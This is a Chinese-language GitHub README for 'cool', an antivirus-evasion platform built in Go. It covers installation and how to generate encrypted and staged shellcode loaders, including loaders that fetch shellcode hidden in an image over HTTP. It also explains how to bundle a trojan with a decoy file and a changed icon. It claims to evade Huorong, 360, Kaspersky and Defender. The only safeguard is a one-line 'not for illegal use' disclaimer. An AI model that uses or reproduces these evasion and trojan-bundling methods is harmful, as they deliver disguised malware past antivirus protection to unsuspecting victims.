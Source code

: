 # cool
时间线：
- Golang Gin 框架写的免杀平台- (2021.11.12)
- Golang Gin 框架写的免杀平台，更新捆绑免杀- (2021.11.20)
- 修复一个小bug- (2021.11.22)
## 安装
1. 安装Go环境，版本要**1.17**及以上；
2. 如果是首次安装Go环境，安装完毕后要配置代理，执行以下这两条命令:
 -  **go env -w GO111MODULE=on** 
 -  **go env -w GOPROXY=https://goproxy.io,direct** 
3. 完毕后执行 **go install mvdan.cc/garble@latest** ；
4. 下载本项目到D盘根目录，文件夹名字改为cool；
5. 运行cool.exe；
6. 访问 **http://127.0.0.1:9000** 。

## 使用
为减去浏览器扫描的时间，故生成的文件格式为txt，使用时只需要把后缀修改为前端提示的后缀就可以了。
### 1. 加密1
- 直接执行exe。
### 2. 加密2
- 直接执行exe。
### 3. 分离1(houqing) 
(目前这个测试已经不过火绒了，查杀点为"异或"，下个版本更新绕过异或查杀。)
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg) 。
### 4. 分离2
#### 上线方式1
- 用python起一个HTTP服务(python -m http.server 8080)，
- 把图片放到起http服务的目录下，
- 执行exe 参数为http服务的图片路径（xxx.exe http://127.0.0.1:8080/a.jpg) 。
#### 上线方式2
- 执行xxx.exe 参数为shellcode.txt里的内容 。
### 5. 捆绑上线
- 填写信息(免杀方式、listeners或者shellcode等)，
- 上传需要和木马捆绑的文件，
- 下载完毕后将后缀改为exe，
- 图标自行修改。

目前火绒、360、卡巴斯基、def全过；先这样用，不能bypass了再说，更新频率看star数量🐕。

## 声明：仅用于技术交流，请勿用于非法用途。
